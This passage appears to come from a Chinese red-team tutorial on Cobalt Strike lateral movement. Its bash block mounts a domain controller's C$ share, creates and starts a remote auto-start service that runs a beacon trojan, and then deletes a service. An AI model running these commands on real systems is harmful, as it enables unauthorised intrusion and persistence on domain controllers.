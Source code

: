 [![](assets/1702372940-9cb2f0aba89b2bacb6f03617b0b7ba49.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/32.png)

然后将此监听器`(内网代理)`生成的木马放到 web 主机，创建服务运行上线 CS

```bash
# 连接到DC c盘
shell net use \\WIN-A5GPDCPJ7OT\c$

# 向DC创建一个服务
sc \\WIN-A5GPDCPJ7OT create beacon1 binPath= "C:\beacon1.exe" start= auto

# 启动服务
sc [服务器名称] start 服务名称 [服务启动参数]
sc \\WIN-A5GPDCPJ7OT start beacon1

# 删除服务
shell sc \\WIN-A5GPDCPJ7OT delete dcbindshell
```
